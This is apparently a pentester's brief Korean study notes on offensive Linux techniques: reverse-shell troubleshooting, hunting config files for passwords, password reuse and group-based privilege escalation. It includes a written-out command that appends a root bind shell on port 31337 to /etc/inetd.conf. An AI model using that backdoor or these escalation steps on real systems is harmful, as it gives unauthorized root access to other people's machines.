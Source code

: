 # 리버스 셸 연결이 안될 때
- nc/bash/python3 등 리버스 연결이 되지 않는다면 elf 파일 혹은 exe 파일을 만들어서 전달해서 실행시켜보기.
- 리스닝 포트를 well knwon 포트(80,443 등)로 바꿔서 받아보기.

---
# inetd.conf(옛날 리눅스 환경)
`
echo '31337 stream tcp nowait root /bin/sh -i' >> /etc/inetd.conf"
`

- 31337번 포트로 바인드 셸 연결

---
- config 파일을 먼저 find로 모두 찾아본 뒤에 패스워드 혹은 해시가 적혀 있는지 확인

- password reuse


# linux privilege escalation
```bash
id
# uid,gid,groups가 아닌 다른 id가 있으면 권한 상승이 되는지 확인
```
<img width="620" height="47" alt="image" src="https://github.com/user-attachments/assets/385e64d5-6119-4bde-9fb4-f6c631746f3b" />

- https://www.hackingarticles.in/disk-group-privilege-escalation
